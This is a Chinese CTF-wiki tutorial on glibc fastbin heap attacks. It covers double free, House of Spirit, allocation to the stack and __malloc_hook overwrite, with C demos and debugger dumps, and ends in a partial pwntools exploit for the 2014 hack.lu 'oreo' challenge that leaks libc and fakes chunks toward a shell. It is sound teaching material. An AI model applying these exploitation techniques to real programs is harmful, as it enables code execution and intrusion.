

[EN](./fastbin_attack.md) | [ZH](./fastbin_attack-zh.md)
---
typora-root-url: ../../../docs
---

# Fastbin Attack

## 介绍
fastbin attack 是一类漏洞的利用方法，是指所有基于 fastbin 机制的漏洞利用方法。这类利用的前提是：

* 存在堆溢出、use-after-free 等能控制 chunk 内容的漏洞
* 漏洞发生于 fastbin 类型的 chunk 中

如果细分的话，可以做如下的分类：

- Fastbin Double Free
- House of Spirit
- Alloc to Stack
- Arbitrary Alloc

其中，前两种主要漏洞侧重于利用 `free` 函数释放**真的 chunk 或伪造的 chunk**，然后再次申请 chunk 进行攻击，后两种侧重于故意修改 `fd` 指针，直接利用 `malloc` 申请指定位置 chunk 进行攻击。

## 原理

fastbin attack 存在的原因在于 fastbin 是使用单链表来维护释放的堆块的，并且由 fastbin 管理的 chunk 即使被释放，其 next_chunk 的 prev_inuse 位也不会被清空。
我们来看一下 fastbin 是怎样管理空闲 chunk 的。
```
int main(void)
{
    void *chunk1,*chunk2,*chunk3;
    chunk1=malloc(0x30);
    chunk2=malloc(0x30);
    chunk3=malloc(0x30);
    //进行释放
    free(chunk1);
    free(chunk2);
    free(chunk3);
    return 0;
}
```
释放前
```
0x602000:	0x0000000000000000	0x0000000000000041 <=== chunk1
0x602010:	0x0000000000000000	0x0000000000000000
0x602020:	0x0000000000000000	0x0000000000000000
0x602030:	0x0000000000000000	0x0000000000000000
0x602040:	0x0000000000000000	0x0000000000000041 <=== chunk2
0x602050:	0x0000000000000000	0x0000000000000000
0x602060:	0x0000000000000000	0x0000000000000000
0x602070:	0x0000000000000000	0x0000000000000000
0x602080:	0x0000000000000000	0x0000000000000041 <=== chunk3
0x602090:	0x0000000000000000	0x0000000000000000
0x6020a0:	0x0000000000000000	0x0000000000000000
0x6020b0:	0x0000000000000000	0x0000000000000000
0x6020c0:	0x0000000000000000	0x0000000000020f41 <=== top chunk
```
执行三次 free 进行释放后
```
0x602000:	0x0000000000000000	0x0000000000000041 <=== chunk1
0x602010:	0x0000000000000000	0x0000000000000000
0x602020:	0x0000000000000000	0x0000000000000000
0x602030:	0x0000000000000000	0x0000000000000000
0x602040:	0x0000000000000000	0x0000000000000041 <=== chunk2
0x602050:	0x0000000000602000	0x0000000000000000
0x602060:	0x0000000000000000	0x0000000000000000
0x602070:	0x0000000000000000	0x0000000000000000
0x602080:	0x0000000000000000	0x0000000000000041 <=== chunk3
0x602090:	0x0000000000602040	0x0000000000000000
0x6020a0:	0x0000000000000000	0x0000000000000000
0x6020b0:	0x0000000000000000	0x0000000000000000
0x6020c0:	0x0000000000000000	0x0000000000020f41 <=== top chunk
```
此时位于 main_arena 中的 fastbin 链表中已经储存了指向 chunk3 的指针，并且 chunk 3、2、1构成了一个单链表
```
Fastbins[idx=2, size=0x30,ptr=0x602080]
===>Chunk(fd=0x602040, size=0x40, flags=PREV_INUSE)
===>Chunk(fd=0x602000, size=0x40, flags=PREV_INUSE)
===>Chunk(fd=0x000000, size=0x40, flags=PREV_INUSE)
```


## Fastbin Double Free

### 介绍

Fastbin Double Free 是指 fastbin 的 chunk 可以被多次释放，因此可以在 fastbin 链表中存在多次。这样导致的后果是多次分配可以从 fastbin 链表中取出同一个堆块，相当于多个指针指向同一个堆块，结合堆块的数据内容可以实现类似于类型混淆(type confused)的效果。

Fastbin Double Free 能够成功利用主要有两部分的原因

1. fastbin 的堆块被释放后 next_chunk 的 pre_inuse 位不会被清空
2. fastbin 在执行 free 的时候仅验证了 main_arena 直接指向的块，即链表指针头部的块。对于链表后面的块，并没有进行验证。

```
/* Another simple check: make sure the top of the bin is not the
	   record we are going to add (i.e., double free).  */
	if (__builtin_expect (old == p, 0))
	  {
	    errstr = "double free or corruption (fasttop)";
	    goto errout;
}
```

### 演示
下面的示例程序说明了这一点，当我们试图执行以下代码时

```
int main(void)
{
    void *chunk1,*chunk2,*chunk3;
    chunk1=malloc(0x10);
    chunk2=malloc(0x10);

    free(chunk1);
    free(chunk1);
    return 0;
}
```
如果你执行这个程序，不出意外的话会得到如下的结果，这正是 _int_free 函数检测到了 fastbin 的 double free。
```
*** Error in `./tst': double free or corruption (fasttop): 0x0000000002200010 ***
======= Backtrace: =========
/lib/x86_64-linux-gnu/libc.so.6(+0x777e5)[0x7fbb7a36c7e5]
/lib/x86_64-linux-gnu/libc.so.6(+0x8037a)[0x7fbb7a37537a]
/lib/x86_64-linux-gnu/libc.so.6(cfree+0x4c)[0x7fbb7a37953c]
./tst[0x4005a2]
/lib/x86_64-linux-gnu/libc.so.6(__libc_start_main+0xf0)[0x7fbb7a315830]
./tst[0x400499]
======= Memory map: ========
00400000-00401000 r-xp 00000000 08:01 1052570                            /home/Ox9A82/tst/tst
00600000-00601000 r--p 00000000 08:01 1052570                            /home/Ox9A82/tst/tst
00601000-00602000 rw-p 00001000 08:01 1052570                            /home/Ox9A82/tst/tst
02200000-02221000 rw-p 00000000 00:00 0                                  [heap]
7fbb74000000-7fbb74021000 rw-p 00000000 00:00 0
7fbb74021000-7fbb78000000 ---p 00000000 00:00 0
7fbb7a0df000-7fbb7a0f5000 r-xp 00000000 08:01 398790                     /lib/x86_64-linux-gnu/libgcc_s.so.1
7fbb7a0f5000-7fbb7a2f4000 ---p 00016000 08:01 398790                     /lib/x86_64-linux-gnu/libgcc_s.so.1
7fbb7a2f4000-7fbb7a2f5000 rw-p 00015000 08:01 398790                     /lib/x86_64-linux-gnu/libgcc_s.so.1
7fbb7a2f5000-7fbb7a4b5000 r-xp 00000000 08:01 415688                     /lib/x86_64-linux-gnu/libc-2.23.so
7fbb7a4b5000-7fbb7a6b5000 ---p 001c0000 08:01 415688                     /lib/x86_64-linux-gnu/libc-2.23.so
7fbb7a6b5000-7fbb7a6b9000 r--p 001c0000 08:01 415688                     /lib/x86_64-linux-gnu/libc-2.23.so
7fbb7a6b9000-7fbb7a6bb000 rw-p 001c4000 08:01 415688                     /lib/x86_64-linux-gnu/libc-2.23.so
7fbb7a6bb000-7fbb7a6bf000 rw-p 00000000 00:00 0
7fbb7a6bf000-7fbb7a6e5000 r-xp 00000000 08:01 407367                     /lib/x86_64-linux-gnu/ld-2.23.so
7fbb7a8c7000-7fbb7a8ca000 rw-p 00000000 00:00 0
7fbb7a8e1000-7fbb7a8e4000 rw-p 00000000 00:00 0
7fbb7a8e4000-7fbb7a8e5000 r--p 00025000 08:01 407367                     /lib/x86_64-linux-gnu/ld-2.23.so
7fbb7a8e5000-7fbb7a8e6000 rw-p 00026000 08:01 407367                     /lib/x86_64-linux-gnu/ld-2.23.so
7fbb7a8e6000-7fbb7a8e7000 rw-p 00000000 00:00 0
7ffcd2f93000-7ffcd2fb4000 rw-p 00000000 00:00 0                          [stack]
7ffcd2fc8000-7ffcd2fca000 r--p 00000000 00:00 0                          [vvar]
7ffcd2fca000-7ffcd2fcc000 r-xp 00000000 00:00 0                          [vdso]
ffffffffff600000-ffffffffff601000 r-xp 00000000 00:00 0                  [vsyscall]
已放弃 (核心已转储)
```
如果我们在 chunk1 释放后，再释放 chunk2 ，这样 main_arena 就指向 chunk2 而不是 chunk1 了，此时我们再去释放 chunk1 就不再会被检测到。
```
int main(void)
{
    void *chunk1,*chunk2,*chunk3;
    chunk1=malloc(0x10);
    chunk2=malloc(0x10);

    free(chunk1);
    free(chunk2);
    free(chunk1);
    return 0;
}
```
第一次释放`free(chunk1)`


第二次释放`free(chunk2)`


第三次释放`free(chunk1)`





注意因为 chunk1 被再次释放因此其 fd 值不再为 0 而是指向 chunk2，这时如果我们可以控制 chunk1 的内容，便可以写入其 fd 指针从而实现在我们想要的任意地址分配 fastbin 块。
下面这个示例演示了这一点，首先跟前面一样构造 main_arena=>chunk1=>chun2=>chunk1的链表。之后第一次调用 malloc 返回 chunk1 之后修改 chunk1 的 fd 指针指向 bss 段上的 bss_chunk，之后我们可以看到 fastbin 会把堆块分配到这里。

```
typedef struct _chunk
{
    long long pre_size;
    long long size;
    long long fd;
    long long bk;
} CHUNK,*PCHUNK;

CHUNK bss_chunk;

int main(void)
{
    void *chunk1,*chunk2,*chunk3;
    void *chunk_a,*chunk_b;

    bss_chunk.size=0x21;
    chunk1=malloc(0x10);
    chunk2=malloc(0x10);

    free(chunk1);
    free(chunk2);
    free(chunk1);

    chunk_a=malloc(0x10);
    *(long long *)chunk_a=&bss_chunk;
    malloc(0x10);
    malloc(0x10);
    chunk_b=malloc(0x10);
    printf("%p",chunk_b);
    return 0;
}
```
在我的系统上 chunk_b 输出的值会是 0x601090，这个值位于bss段中正是我们之前设置的`CHUNK bss_chunk`
```
Start              End                Offset             Perm Path
0x0000000000400000 0x0000000000401000 0x0000000000000000 r-x /home/Ox9A82/tst/tst
0x0000000000600000 0x0000000000601000 0x0000000000000000 r-- /home/Ox9A82/tst/tst
0x0000000000601000 0x0000000000602000 0x0000000000001000 rw- /home/Ox9A82/tst/tst
0x0000000000602000 0x0000000000623000 0x0000000000000000 rw- [heap]

0x601080 <bss_chunk>:	0x0000000000000000	0x0000000000000021
0x601090 <bss_chunk+16>:0x0000000000000000	0x0000000000000000
0x6010a0:	            0x0000000000000000	0x0000000000000000
0x6010b0:	            0x0000000000000000	0x0000000000000000
0x6010c0:	            0x0000000000000000	0x0000000000000000
```
值得注意的是，我们在 main 函数的第一步就进行了`bss_chunk.size=0x21;`的操作，这是因为_int_malloc会对欲分配位置的 size 域进行验证，如果其 size 与当前 fastbin 链表应有 size 不符就会抛出异常。
```
*** Error in `./tst': malloc(): memory corruption (fast): 0x0000000000601090 ***
======= Backtrace: =========
/lib/x86_64-linux-gnu/libc.so.6(+0x777e5)[0x7f8f9deb27e5]
/lib/x86_64-linux-gnu/libc.so.6(+0x82651)[0x7f8f9debd651]
/lib/x86_64-linux-gnu/libc.so.6(__libc_malloc+0x54)[0x7f8f9debf184]
./tst[0x400636]
/lib/x86_64-linux-gnu/libc.so.6(__libc_start_main+0xf0)[0x7f8f9de5b830]
./tst[0x4004e9]
======= Memory map: ========
00400000-00401000 r-xp 00000000 08:01 1052570                            /home/Ox9A82/tst/tst
00600000-00601000 r--p 00000000 08:01 1052570                            /home/Ox9A82/tst/tst
00601000-00602000 rw-p 00001000 08:01 1052570                            /home/Ox9A82/tst/tst
00bc4000-00be5000 rw-p 00000000 00:00 0                                  [heap]
7f8f98000000-7f8f98021000 rw-p 00000000 00:00 0
7f8f98021000-7f8f9c000000 ---p 00000000 00:00 0
7f8f9dc25000-7f8f9dc3b000 r-xp 00000000 08:01 398790                     /lib/x86_64-linux-gnu/libgcc_s.so.1
7f8f9dc3b000-7f8f9de3a000 ---p 00016000 08:01 398790                     /lib/x86_64-linux-gnu/libgcc_s.so.1
7f8f9de3a000-7f8f9de3b000 rw-p 00015000 08:01 398790                     /lib/x86_64-linux-gnu/libgcc_s.so.1
7f8f9de3b000-7f8f9dffb000 r-xp 00000000 08:01 415688                     /lib/x86_64-linux-gnu/libc-2.23.so
7f8f9dffb000-7f8f9e1fb000 ---p 001c0000 08:01 415688                     /lib/x86_64-linux-gnu/libc-2.23.so
7f8f9e1fb000-7f8f9e1ff000 r--p 001c0000 08:01 415688                     /lib/x86_64-linux-gnu/libc-2.23.so
7f8f9e1ff000-7f8f9e201000 rw-p 001c4000 08:01 415688                     /lib/x86_64-linux-gnu/libc-2.23.so
7f8f9e201000-7f8f9e205000 rw-p 00000000 00:00 0
7f8f9e205000-7f8f9e22b000 r-xp 00000000 08:01 407367                     /lib/x86_64-linux-gnu/ld-2.23.so
7f8f9e40d000-7f8f9e410000 rw-p 00000000 00:00 0
7f8f9e427000-7f8f9e42a000 rw-p 00000000 00:00 0
7f8f9e42a000-7f8f9e42b000 r--p 00025000 08:01 407367                     /lib/x86_64-linux-gnu/ld-2.23.so
7f8f9e42b000-7f8f9e42c000 rw-p 00026000 08:01 407367                     /lib/x86_64-linux-gnu/ld-2.23.so
7f8f9e42c000-7f8f9e42d000 rw-p 00000000 00:00 0
7fff71a94000-7fff71ab5000 rw-p 00000000 00:00 0                          [stack]
7fff71bd9000-7fff71bdb000 r--p 00000000 00:00 0                          [vvar]
7fff71bdb000-7fff71bdd000 r-xp 00000000 00:00 0                          [vdso]
ffffffffff600000-ffffffffff601000 r-xp 00000000 00:00 0                  [vsyscall]
已放弃 (核心已转储)
```
_int_malloc 中的校验如下
```
if (__builtin_expect (fastbin_index (chunksize (victim)) != idx, 0))
	{
	  errstr = "malloc(): memory corruption (fast)";
	errout:
	  malloc_printerr (check_action, errstr, chunk2mem (victim));
	  return NULL;
}
```

### 小总结
通过 fastbin double free 我们可以使用多个指针控制同一个堆块，这可以用于篡改一些堆块中的关键数据域或者是实现类似于类型混淆的效果。
如果更进一步修改 fd 指针，则能够实现任意地址分配堆块的效果( 首先要通过验证 )，这就相当于任意地址写任意值的效果。

## House Of Spirit

### 介绍

House of Spirit 是 `the Malloc Maleficarum` 中的一种技术。

该技术的核心在于在目标位置处伪造 fastbin chunk，并将其释放，从而达到分配**指定地址**的 chunk 的目的。

要想构造 fastbin fake chunk，并且将其释放时，可以将其放入到对应的 fastbin 链表中，需要绕过一些必要的检测，即

- fake chunk 的 ISMMAP 位不能为1，因为 free 时，如果是 mmap 的 chunk，会单独处理。
- fake chunk 地址需要对齐， MALLOC_ALIGN_MASK
- fake chunk 的 size 大小需要满足对应的 fastbin 的需求，同时也得对齐。
- fake chunk 的 next chunk 的大小不能小于 `2 * SIZE_SZ`，同时也不能大于`av->system_mem` 。
- fake chunk 对应的 fastbin 链表头部不能是该 fake chunk，即不能构成 double free 的情况。

至于为什么要绕过这些检测，可以参考 free 部分的源码。

### 演示

这里就直接以 how2heap 上的例子进行说明，如下

```c
#include <stdio.h>
#include <stdlib.h>

int main()
{
	fprintf(stderr, "This file demonstrates the house of spirit attack.\n");

	fprintf(stderr, "Calling malloc() once so that it sets up its memory.\n");
	malloc(1);

	fprintf(stderr, "We will now overwrite a pointer to point to a fake 'fastbin' region.\n");
	unsigned long long *a;
	// This has nothing to do with fastbinsY (do not be fooled by the 10) - fake_chunks is just a piece of memory to fulfil allocations (pointed to from fastbinsY)
	unsigned long long fake_chunks[10] __attribute__ ((aligned (16)));

	fprintf(stderr, "This region (memory of length: %lu) contains two chunks. The first starts at %p and the second at %p.\n", sizeof(fake_chunks), &fake_chunks[1], &fake_chunks[7]);

	fprintf(stderr, "This chunk.size of this region has to be 16 more than the region (to accomodate the chunk data) while still falling into the fastbin category (<= 128 on x64). The PREV_INUSE (lsb) bit is ignored by free for fastbin-sized chunks, however the IS_MMAPPED (second lsb) and NON_MAIN_ARENA (third lsb) bits cause problems.\n");
	fprintf(stderr, "... note that this has to be the size of the next malloc request rounded to the internal size used by the malloc implementation. E.g. on x64, 0x30-0x38 will all be rounded to 0x40, so they would work for the malloc parameter at the end. \n");
	fake_chunks[1] = 0x40; // this is the size

	fprintf(stderr, "The chunk.size of the *next* fake region has to be sane. That is > 2*SIZE_SZ (> 16 on x64) && < av->system_mem (< 128kb by default for the main arena) to pass the nextsize integrity checks. No need for fastbin size.\n");
        // fake_chunks[9] because 0x40 / sizeof(unsigned long long) = 8
	fake_chunks[9] = 0x1234; // nextsize

	fprintf(stderr, "Now we will overwrite our pointer with the address of the fake region inside the fake first chunk, %p.\n", &fake_chunks[1]);
	fprintf(stderr, "... note that the memory address of the *region* associated with this chunk must be 16-byte aligned.\n");
	a = &fake_chunks[2];

	fprintf(stderr, "Freeing the overwritten pointer.\n");
	free(a);

	fprintf(stderr, "Now the next malloc will return the region of our fake chunk at %p, which will be %p!\n", &fake_chunks[1], &fake_chunks[2]);
	fprintf(stderr, "malloc(0x30): %p\n", malloc(0x30));
}
```

运行后的效果如下

```shell
➜  how2heap git:(master) ./house_of_spirit
This file demonstrates the house of spirit attack.
Calling malloc() once so that it sets up its memory.
We will now overwrite a pointer to point to a fake 'fastbin' region.
This region (memory of length: 80) contains two chunks. The first starts at 0x7ffd9bceaa58 and the second at 0x7ffd9bceaa88.
This chunk.size of this region has to be 16 more than the region (to accomodate the chunk data) while still falling into the fastbin category (<= 128 on x64). The PREV_INUSE (lsb) bit is ignored by free for fastbin-sized chunks, however the IS_MMAPPED (second lsb) and NON_MAIN_ARENA (third lsb) bits cause problems.
... note that this has to be the size of the next malloc request rounded to the internal size used by the malloc implementation. E.g. on x64, 0x30-0x38 will all be rounded to 0x40, so they would work for the malloc parameter at the end.
The chunk.size of the *next* fake region has to be sane. That is > 2*SIZE_SZ (> 16 on x64) && < av->system_mem (< 128kb by default for the main arena) to pass the nextsize integrity checks. No need for fastbin size.
Now we will overwrite our pointer with the address of the fake region inside the fake first chunk, 0x7ffd9bceaa58.
... note that the memory address of the *region* associated with this chunk must be 16-byte aligned.
Freeing the overwritten pointer.
Now the next malloc will return the region of our fake chunk at 0x7ffd9bceaa58, which will be 0x7ffd9bceaa60!
malloc(0x30): 0x7ffd9bceaa60
```

### 小总结

可以看出，想要使用该技术分配 chunk 到指定地址，其实并不需要修改指定地址的任何内容，**关键是要能够修改指定地址的前后的内容使其可以绕过对应的检测**。

## Alloc to Stack

### 介绍

如果你已经理解了前文所讲的 Fastbin Double Free 与 house of spirit 技术，那么理解该技术就已经不成问题了，它们的本质都在于 fastbin 链表的特性：当前 chunk 的 fd 指针指向下一个 chunk。

该技术的核心点在于劫持 fastbin 链表中 chunk 的 fd 指针，把 fd 指针指向我们想要分配的栈上，从而实现控制栈中的一些关键数据，比如返回地址等。

### 演示
这次我们把 fake_chunk 置于栈中称为 stack_chunk，同时劫持了 fastbin 链表中 chunk 的 fd 值，通过把这个 fd 值指向 stack_chunk 就可以实现在栈中分配 fastbin chunk。
```
typedef struct _chunk
{
    long long pre_size;
    long long size;
    long long fd;
    long long bk;
} CHUNK,*PCHUNK;

int main(void)
{
    CHUNK stack_chunk;

    void *chunk1;
    void *chunk_a;

    stack_chunk.size=0x21;
    chunk1=malloc(0x10);

    free(chunk1);

    *(long long *)chunk1=&stack_chunk;
    malloc(0x10);
    chunk_a=malloc(0x10);
    return 0;
}
```
通过 gdb 调试可以看到我们首先把 chunk1 的 fd 指针指向了 stack_chunk
```
0x602000:	0x0000000000000000	0x0000000000000021 <=== chunk1
0x602010:	0x00007fffffffde60	0x0000000000000000
0x602020:	0x0000000000000000	0x0000000000020fe1 <=== top chunk
```
之后第一次 malloc 使得 fastbin 链表指向了 stack_chunk，这意味着下一次分配会使用 stack_chunk 的内存进行
```
0x7ffff7dd1b20 <main_arena>:	0x0000000000000000 <=== unsorted bin
0x7ffff7dd1b28 <main_arena+8>:  0x00007fffffffde60 <=== fastbin[0]
0x7ffff7dd1b30 <main_arena+16>:	0x0000000000000000
```
最终第二次malloc返回值为0x00007fffffffde70也就是stack_chunk
```
   0x400629 <main+83>        call   0x4004c0 <malloc@plt>
 → 0x40062e <main+88>        mov    QWORD PTR [rbp-0x38], rax
   $rax   : 0x00007fffffffde70

0x0000000000400000 0x0000000000401000 0x0000000000000000 r-x /home/Ox9A82/tst/tst
0x0000000000600000 0x0000000000601000 0x0000000000000000 r-- /home/Ox9A82/tst/tst
0x0000000000601000 0x0000000000602000 0x0000000000001000 rw- /home/Ox9A82/tst/tst
0x0000000000602000 0x0000000000623000 0x0000000000000000 rw- [heap]
0x00007ffff7a0d000 0x00007ffff7bcd000 0x0000000000000000 r-x /lib/x86_64-linux-gnu/libc-2.23.so
0x00007ffff7bcd000 0x00007ffff7dcd000 0x00000000001c0000 --- /lib/x86_64-linux-gnu/libc-2.23.so
0x00007ffff7dcd000 0x00007ffff7dd1000 0x00000000001c0000 r-- /lib/x86_64-linux-gnu/libc-2.23.so
0x00007ffff7dd1000 0x00007ffff7dd3000 0x00000000001c4000 rw- /lib/x86_64-linux-gnu/libc-2.23.so
0x00007ffff7dd3000 0x00007ffff7dd7000 0x0000000000000000 rw-
0x00007ffff7dd7000 0x00007ffff7dfd000 0x0000000000000000 r-x /lib/x86_64-linux-gnu/ld-2.23.so
0x00007ffff7fdb000 0x00007ffff7fde000 0x0000000000000000 rw-
0x00007ffff7ff6000 0x00007ffff7ff8000 0x0000000000000000 rw-
0x00007ffff7ff8000 0x00007ffff7ffa000 0x0000000000000000 r-- [vvar]
0x00007ffff7ffa000 0x00007ffff7ffc000 0x0000000000000000 r-x [vdso]
0x00007ffff7ffc000 0x00007ffff7ffd000 0x0000000000025000 r-- /lib/x86_64-linux-gnu/ld-2.23.so
0x00007ffff7ffd000 0x00007ffff7ffe000 0x0000000000026000 rw- /lib/x86_64-linux-gnu/ld-2.23.so
0x00007ffff7ffe000 0x00007ffff7fff000 0x0000000000000000 rw-
0x00007ffffffde000 0x00007ffffffff000 0x0000000000000000 rw- [stack]
0xffffffffff600000 0xffffffffff601000 0x0000000000000000 r-x [vsyscall]

```


### 小总结
通过该技术我们可以把 fastbin chunk 分配到栈中，从而控制返回地址等关键数据。要实现这一点我们需要劫持fastbin 中 chunk 的 fd 域，把它指到栈上，当然同时需要栈上存在有满足条件的size值。

## Arbitrary Alloc

### 介绍

Arbitrary Alloc 其实与 Alloc to stack 是完全相同的，唯一的区别是分配的目标不再是栈中。
事实上只要满足目标地址存在合法的 size 域（这个 size 域是构造的，还是自然存在的都无妨），我们可以把 chunk 分配到任意的可写内存中，比如bss、heap、data、stack等等。

### 演示
在这个例子，我们使用字节错位来实现直接分配 fastbin 到**\_malloc_hook的位置，相当于覆盖_malloc_hook来控制程序流程。**
```
int main(void)
{


    void *chunk1;
    void *chunk_a;

    chunk1=malloc(0x60);

    free(chunk1);

    *(long long *)chunk1=0x7ffff7dd1af5-0x8;
    malloc(0x60);
    chunk_a=malloc(0x60);
    return 0;
}
```
这里的0x7ffff7dd1af5是我根据本机的情况得出的值，这个值是怎么获得的呢？首先我们要观察欲写入地址附近是否存在可以字节错位的情况。
```
0x7ffff7dd1a88 0x0	0x0	0x0	0x0	0x0	0x0	0x0	0x0
0x7ffff7dd1a90 0x0	0x0	0x0	0x0	0x0	0x0	0x0	0x0
0x7ffff7dd1a98 0x0	0x0	0x0	0x0	0x0	0x0	0x0	0x0
0x7ffff7dd1aa0 0x0	0x0	0x0	0x0	0x0	0x0	0x0	0x0
0x7ffff7dd1aa8 0x0	0x0	0x0	0x0	0x0	0x0	0x0	0x0
0x7ffff7dd1ab0 0x0	0x0	0x0	0x0	0x0	0x0	0x0	0x0
0x7ffff7dd1ab8 0x0	0x0	0x0	0x0	0x0	0x0	0x0	0x0
0x7ffff7dd1ac0 0x0	0x0	0x0	0x0	0x0	0x0	0x0	0x0
0x7ffff7dd1ac8 0x0	0x0	0x0	0x0	0x0	0x0	0x0	0x0
0x7ffff7dd1ad0 0x0	0x0	0x0	0x0	0x0	0x0	0x0	0x0
0x7ffff7dd1ad8 0x0	0x0	0x0	0x0	0x0	0x0	0x0	0x0
0x7ffff7dd1ae0 0x0	0x0	0x0	0x0	0x0	0x0	0x0	0x0
0x7ffff7dd1ae8 0x0	0x0	0x0	0x0	0x0	0x0	0x0	0x0
0x7ffff7dd1af0 0x60 0x2	0xdd 0xf7 0xff 0x7f	0x0	0x0
0x7ffff7dd1af8 0x0  0x0	0x0	0x0	0x0	0x0	0x0	0x0
0x7ffff7dd1b00 0x20	0x2e 0xa9 0xf7 0xff	0x7f 0x0 0x0
0x7ffff7dd1b08 0x0	0x2a 0xa9 0xf7 0xff	0x7f 0x0 0x0
0x7ffff7dd1b10 <__malloc_hook>:	0x30	0x28	0xa9	0xf7	0xff	0x7f	0x0	0x0
```
0x7ffff7dd1b10 是我们想要控制的 __malloc_hook 的地址，于是我们向上寻找是否可以错位出一个合法的size域。因为这个程序是 64 位的，因此 fastbin 的范围为32字节到128字节(0x20-0x80)，如下：
```
//这里的size指用户区域，因此要小2倍SIZE_SZ
Fastbins[idx=0, size=0x10]
Fastbins[idx=1, size=0x20]
Fastbins[idx=2, size=0x30]
Fastbins[idx=3, size=0x40]
Fastbins[idx=4, size=0x50]
Fastbins[idx=5, size=0x60]
Fastbins[idx=6, size=0x70]
```
通过观察发现 0x7ffff7dd1af5 处可以现实错位构造出一个0x000000000000007f
```
0x7ffff7dd1af0 0x60 0x2	0xdd 0xf7 0xff 0x7f	0x0	0x0
0x7ffff7dd1af8 0x0  0x0	0x0	0x0	0x0	0x0	0x0	0x0

0x7ffff7dd1af5 <_IO_wide_data_0+309>:	0x000000000000007f
```
因为 0x7f 在计算 fastbin index 时，是属于 index 5 的，即 chunk 大小为 0x70 的。

```c
##define fastbin_index(sz)                                                      \
    ((((unsigned int) (sz)) >> (SIZE_SZ == 8 ? 4 : 3)) - 2)
```
（注意sz的大小是unsigned int，因此只占4个字节）


而其大小又包含了 0x10 的 chunk_header，因此我们选择分配 0x60 的 fastbin，将其加入链表。
最后经过两次分配可以观察到 chunk 被分配到 0x7ffff7dd1afd，因此我们就可以直接控制 __malloc_hook的内容(在我的libc中__realloc_hook与__malloc_hook是在连在一起的)。

```
0x4005a8 <main+66>        call   0x400450 <malloc@plt>
 →   0x4005ad <main+71>        mov    QWORD PTR [rbp-0x8], rax

 $rax   : 0x7ffff7dd1afd

0x7ffff7dd1aed <_IO_wide_data_0+301>:	0xfff7dd0260000000	0x000000000000007f
0x7ffff7dd1afd:	0xfff7a92e20000000	0xfff7a92a0000007f
0x7ffff7dd1b0d <__realloc_hook+5>:	0x000000000000007f	0x0000000000000000
0x7ffff7dd1b1d:	0x0000000000000000	0x0000000000000000

```


### 小总结
Arbitrary Alloc 在 CTF 中用地更加频繁。我们可以利用字节错位等方法来绕过 size 域的检验，实现任意地址分配 chunk，最后的效果也就相当于任意地址写任意值。

## 2014 hack.lu oreo
[题目链接](https://github.com/ctf-wiki/ctf-challenges/tree/master/pwn/heap/fastbin-attack/2014_hack.lu_oreo)

### 基本分析

```shell
➜  2014_Hack.lu_oreo git:(master) file oreo
oreo: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.26, BuildID[sha1]=f591eececd05c63140b9d658578aea6c24450f8b, stripped
➜  2014_Hack.lu_oreo git:(master) checksec oreo
[*] '/mnt/hgfs/Hack/ctf/ctf-wiki/pwn/heap/example/house_of_spirit/2014_Hack.lu_oreo/oreo'
    Arch:     i386-32-little
    RELRO:    No RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

可以看出，程序确实是比较老的，32位程序，动态链接，就连 RELRO 技术也没有上。

### 基本功能

**需要注意的是，该程序并没有进行 setvbuf 操作，因此在初次执行 io 函数时，会在堆上分配空间。**

正如程序中直接输出的信息，程序主要是一个原始的在线枪支系统。其中，根据添加枪支的过程，我们可以得到枪支的基本结构如下

```c
00000000 rifle           struc ; (sizeof=0x38, mappedto_5)
00000000 descript        db 25 dup(?)
00000019 name            db 27 dup(?)
00000034 next            dd ?                    ; offset
00000038 rifle           ends
```

程序的基本功能如下

- 添加枪支，其主要会读取枪支的名字与描述。但问题在于读取的名字的长度过长，可以覆盖 next 指针以及后面堆块的数据。可以覆盖后面堆块的数据大小为 56-(56-27)=27 大小。需要注意的是，这些枪支的大小都是在fastbin 范围内的。
- 展示添加枪支，即从头到尾输出枪支的描述与名字。
- 订已经选择的枪支，即将所有已经添加的枪支释放掉，但是并没有置为NULL。
- 留下订货消息
- 展示目前状态，即添加了多少只枪，订了多少单，留下了什么信息。

不难分析得到，程序的漏洞主要存在于添加枪支时的堆溢出漏洞。

### 利用

基本利用思路如下

1. 由于程序存在堆溢出漏洞，而且还可以控制 next 指针，我们可以直接控制 next 指针指向程序中 got 表的位置。当进行展示的时候，即可以输出对应的内容，这里同时需要确保假设对应地址为一个枪支结构体时，其 next 指针为 NULL。这里我采用 puts@got。通过这样的操作，我们就可以获得出 libc 基地址，以及 system 函数地址。
2. 由于枪支结构体大小是 0x38 大小，所以其对应的 chunk 为 0x40。这里采用 `house of sprit` 的技术来返回 0x0804A2A8 处的chunk，即留下的消息的指针。因此，我们需要设置 0x0804A2A4 处的内容为 0x40，即需要添加 0x40 支枪支，从而绕过大小检测。同时为了确保可以绕过 next chunk 的检测，这里我们编辑留下的消息。
3. 在成功分配这样的 chunk 后，我们其实就有了一个任意地址修改的漏洞，这里我们可以选择修改一个合适的 got 项为 system 地址，从而获得 shell。

具体代码如下

```python
from pwn import *
context.terminal = ['gnome-terminal', '-x', 'sh', '-c']
if args['DEBUG']:
    context.log_level = 'debug'
context.binary = "./oreo"
oreo = ELF("./oreo")
if args['REMOTE']:
    p = remote(ip, port)
else:
    p = process("./oreo")
log.info('PID: ' + str(proc.pidof(p)[0]))
libc = ELF('./libc.so.6')


def add(descrip, name):
    p.sendline('1')
    #p.recvuntil('Rifle name: ')
    p.sendline(name)
    #p.recvuntil('Rifle description: ')
    #sleep(0.5)
    p.sendline(descrip)


def show_rifle():
    p.sendline('2')
    p.recvuntil('===================================\n')


def order():
    p.sendline('3')


def message(notice):
    p.sendline('4')
    #p.recvuntil("Enter any notice you'd like to submit with your order: ")
    p.sendline(notice)


def exp():
    print 'step 1. leak libc base'
    name = 27 * 'a' + p32(oreo.got['puts'])
    add(25 * 'a', name)
    show_rifle()
    p.recvuntil('===================================\n')
    p.recvuntil('Description: ')
    puts_addr = u32(p.recvuntil('\n', drop=True)[:4])
    log.success('puts addr: ' + hex(puts_addr))
    libc_base = puts_addr - libc.symbols['puts']
    system_addr = libc_base + libc.symbols['system']
    binsh_addr = libc_base + next(libc.search('/bin/sh'))

    print 'step 2. free fake chunk at 0x0804A2A8'

    # now, oifle_cnt=1, we need set it = 0x40
    oifle = 1
